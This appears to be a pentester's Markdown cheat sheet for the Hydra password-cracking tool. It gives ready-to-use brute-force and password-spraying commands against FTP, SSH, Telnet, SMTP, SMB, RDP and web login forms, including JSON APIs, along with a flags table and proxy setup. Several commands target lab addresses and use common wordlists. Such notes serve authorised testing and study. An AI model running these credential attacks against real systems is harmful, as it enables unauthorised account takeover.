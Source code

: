 # Hydra
Hydra is a command-line password-cracking tool used to perform brute-force attacks to discover weak passwords

It supports various network protocols and applications such as:

| PROTOCOL | DEFAULT PORT | LINK |
| :----------: | :------: | :--: |
| FTP | 21 | link | 
| SSH | 22 | link | 
| Telnet | 23 | link | 
| SMTP | 25/587 | link | 
| HTTP(s) | 80/443 |link |
| SMB | 139/445 | link |
| RDP | 3389 | link |

The default port can be changed using `-s` flag.

<br>

## Modes
Hydra can be used in different scenarios:
* Password Cracking [Password Brute Force]
```console
hydra -l {KNOWN_USERNAME} -P {PASSWORD_WORDLIST} {TARGET_IP} [CUT]
```

* Password Spraying [Username Brute Force]
```console
hydra -L {USERNAME_WORDLIST} -P {KNOWN_PASSWORD} {TARGET_IP} [CUT]
```

* Username and Password Brute Force
```console
hydra -L {USERNAME_WORDLIST} -P {PASSWORD_WORDLIST} {TARGET_IP} [CUT]
```

<br>

## Protocols
Here a list of hydra commands for the most common protocols

### FTP
```console
hydra -l {USERNAME} -P {WORDLIST} {TARGET_IP} ftp -f
```

### SSH
```console
hydra -l {USERNAME} -P {WORDLIST} {TARGET_ID} ssh -f
```

### Telnet
```console
hydra -l {USERNAME} -P {WORDLIST} {TARGET_ID} telnet -f
```

### SMTP
```console
hydra -l {EMAIL} -P {WORDLIST} {TARGET_EMAIL_SERVER} smtp -S -f
```

### SMB
```console
hydra -l {USERNAME} -P {WORDLIST} {TARGET_ID} smb -f
```

### RDP
```console
hydra -l {USERNAME} -P {WORDLIST} {TARGET_ID} rdp -f
```

### HTTP 
* Basic Authentication
```console
hydra -l {USERNAME} -P {WORDLIST} {TARGET_ID} -s {PORT} http-head {PAYLOAD} -f
```

* Digest Authentication
```console
hydra -l {USERNAME} -P {WORDLIST} {TARGET_ID} -s {PORT} http-get {PAYLOAD} -f
```

* Other Authentication
```console
hydra -l {USERNAME} -P {WORDLIST} {TARGET_ID} -s {PORT} {MODULE} {PAYLOAD} -f
```

where, according to the web server authentication method:

`Module` can assume the following values:
* http-get-form
* http-post-form
* https-get-form
* https-post-form

`Payload` (argument of the module) is a three colon-delimited fields {LOGIN_FORM_LOCATION}:{REQUEST_BODY}:{FAILED_LOGIN_IDENTIFIER} where
* LOGIN_FORM_LOCATION is the path of the login form, such as /secure/login
* REQUEST_BODY is the request body the web server expected
* FAILED_LOGIN_IDENTIFIER is the error response when a login failed (exit condition)

```console
hydra -l admin -P ./rockyou.txt 10.10.10.123 -s 80 http-post-form "/login:j_username=admin&j_password=^PASS^:Incorrect username or password" -f
```

`TODO`
In case of JSON Post Authentication, we need to specify the Content-Type: application/json, maybe with the flag H=

### Post Json Authentication
application/json
hydra -l admin@juice-sh.op -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/best1050.txt 10.10.174.18 http-post-form "/rest/user/login:email=^USER^&password=^PASS^:Invalid"

# Common Credentials
```console
hydra -L /usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt 10.129.95.192 -s 80 http-post-form "/:username=^USER^&password=^PASS^:Wrong Credentials" -f 
```
N.B. Hydra will ignore js tags or redirects, taking only strings (es <script>alert("Wrong Credentials")</script>)

## Flags

| OPTIONS | DESCRIPTION | NOTE |
| :------------: | :------------: | ------------ |
| -l | Username | Specifies the username to brute-force | 
| -f | Ends when succeed | The brute-force terminates when an occurrence succeeds |
| -P | Password Wordlist | Password is brute-forced using this wordlist |
| -L | Username Wordlist | Username is brute-forced using this wordlist |
| -C | User+Pass Wordlist | Unique wordlist containing username:password for every line |
| -s | Port | Specifies the port to use |
| -t | Threads | Specifies the number of thread to use | 
| -v | Verbose | Enables verbose mode | 
| -d | Debug | Enables debug mode | 
| -w | Seconds | Specifies the number of seconds to wait between requests | 
| -S | SSL | Performs a connection using SSL |


## Intercept with Proxy
Hydra requests can be inspected using Burp, in order to understand what is wrong about the request.
Hydra needs just the setup of the following environment variable

```console
export HYDRA_PROXY_HTTP=http://127.0.0.1:8080
```

[TODO]
hydra -v -V -L "users.txt" -P "passwords.txt" -s 80 architectureservice.test.com http-post-form "/api/v1/login:{\"username\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:changeFirstName:H=Accept: application/json, text/plain, */*:H=Accept-Language: en-US,en;q=0.5:H=Accept-Encoding: gzip, deflate:H=Referer: http\://architectureclient.test.com/:H=Origin: http\://architectureclient.test.com:H=Connection: keep-alive"


hydra -v -V -L "users.txt" -P "passwords.txt" -s 80 architectureservice.tester.com http-post-form "/api/v1/login:{\"username\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:S=firstName:H=Accept: application/json, text/plain, */*:H=Accept-Language: en-US,en;q=0.5:H=Accept-Encoding: gzip, deflate:H=Referer: http\://architectureclient.tester.com/:H=Origin: http\://architectureclient.tester.com:H=Connection: keep-alive"


